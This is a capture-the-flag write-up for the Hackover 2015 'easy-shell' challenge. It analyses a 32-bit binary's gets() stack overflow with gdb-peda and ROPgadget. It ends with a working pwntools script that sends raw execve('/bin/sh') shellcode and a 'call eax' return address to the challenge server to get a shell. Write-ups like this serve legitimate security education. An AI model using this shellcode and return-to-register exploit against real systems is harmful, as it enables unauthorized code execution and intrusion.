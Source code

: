 [](ctf=hackover-2015)
[](type=pwn)
[](tags=buffer-overflow,ROP)
[](tools=pwntools,gdb-peda)
[](techniques=ROP)

# easy-shell (pwn-75)

We have a [zip](../easy_shell-2fdf5e4dea11c1e96f0a81971b096e48.tgz) file.
Unzipping it gives us

```bash
$ file easy_shell
easy_shell: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=db8c496a9a78e4d2b5088ef340c422f757888559, not stripped

$ ./easy_shell 

        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'| 
        "----^----">>

nom nom, shell> AAAA
```
Easy shell should be easy. Lets start!
Dump of assembler code for function main:

```objdump
   0x080484d6 <+0>:	lea    ecx,[esp+0x4]
   0x080484da <+4>:	and    esp,0xfffffff0
   0x080484dd <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484e0 <+10>:	push   ebp
   0x080484e1 <+11>:	mov    ebp,esp
   0x080484e3 <+13>:	push   ecx
=> 0x080484e4 <+14>:	sub    esp,0x4
   0x080484e7 <+17>:	call   0x804847b <do_stuff>
   0x080484ec <+22>:	mov    eax,0x2a
   0x080484f1 <+27>:	add    esp,0x4
   0x080484f4 <+30>:	pop    ecx
   0x080484f5 <+31>:	pop    ebp
   0x080484f6 <+32>:	lea    esp,[ecx-0x4]
   0x080484f9 <+35>:	ret    
```
It calls another function do_stuff

```objdump
   0x0804847b <+0>:	push   ebp
   0x0804847c <+1>:	mov    ebp,esp
   0x0804847e <+3>:	sub    esp,0x38
   0x08048481 <+6>:	mov    eax,ds:0x80498ec
   0x08048486 <+11>:	sub    esp,0xc
   0x08048489 <+14>:	push   eax
   0x0804848a <+15>:	call   0x8048330 <printf@plt>
   0x0804848f <+20>:	add    esp,0x10
   0x08048492 <+23>:	mov    eax,ds:0x80498f0
   0x08048497 <+28>:	sub    esp,0xc
   0x0804849a <+31>:	push   eax
   0x0804849b <+32>:	call   0x8048340 <fflush@plt>
   0x080484a0 <+37>:	add    esp,0x10
   0x080484a3 <+40>:	sub    esp,0xc
   0x080484a6 <+43>:	push   0x804869a
   0x080484ab <+48>:	call   0x8048330 <printf@plt>
   0x080484b0 <+53>:	add    esp,0x10
   0x080484b3 <+56>:	mov    eax,ds:0x80498f0
   0x080484b8 <+61>:	sub    esp,0xc
   0x080484bb <+64>:	push   eax
   0x080484bc <+65>:	call   0x8048340 <fflush@plt>
   0x080484c1 <+70>:	add    esp,0x10
   0x080484c4 <+73>:	sub    esp,0xc
   0x080484c7 <+76>:	lea    eax,[ebp-0x32]
   0x080484ca <+79>:	push   eax
   0x080484cb <+80>:	call   0x8048350 <gets@plt>
   0x080484d0 <+85>:	add    esp,0x10
   0x080484d3 <+88>:	nop
   0x080484d4 <+89>:	leave  
   0x080484d5 <+90>:	ret    
```
So a gets call. This could mean buffer overflow as there is no stack check. We verify using pattern_create.

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ b *0x080484d5
Breakpoint 2 at 0x80484d5
gdb-peda$ c
Continuing.

        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'| 
        "----^----">>

nom nom, shell> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
gdb-peda$ pattern_search 
Registers contain pattern buffer:
EIP+0 found at offset: 54
EBP+0 found at offset: 50
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~100
[ESP] --> offset 58 - size ~42
```
NX is not enabled.
We get EIP overwrite at 54.
Now our payload format could be :

 > nops+shellcode+ret_addr_to_buffer

Only if we know the address of our shellcode.
But we notice that when do_stuff rets EAX points to our buffer, as can be seen in pattern_search above. Well then we can use other technique called 'return to register'. If we can find an instruction 'call eax' in our binary we'll use it to launch our shellcode.
ROPgadget is such a tool that hels us to find such 'gadgets'.

```bash
$ ROPgadget --binary easy_shell | grep 'call eax'
0x080483dd : adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483e1 : add al, 8 ; call eax
0x080483e3 : call eax
0x080483e0 : cwde ; add al, 8 ; call eax
0x080483dc : in al, dx ; adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483da : in eax, -0x7d ; in al, dx ; adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483df : lock cwde ; add al, 8 ; call eax
0x080483de : push 0x80498f0 ; call eax
0x080483db : sub esp, 0x14 ; push 0x80498f0 ; call eax
```

The instruction at 0x080483e3 is perfect. This will help to execute the payload without knowing the address of shellcode.
Also its less work to do, locating the shellcode on the stack is too tiresome and a pain if ASLR is enabled.

so now our payload format would be:

> nops+shellcode+p32(0x080483e3)


```python
from pwn import *
s=remote('easy-shell.hackover.h4q.it',1337)
for _ in range(10):
	print s.recvline(timeout=5)
addr=p32(0x080483e3)
payload="\x90"*(54-36)+"\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
s.send(payload+addr)
s.interactive()
```

The flag was located in /home/ctf.
[Full exploit](easy_shell.py) in action.

![action](easy_shell.png)

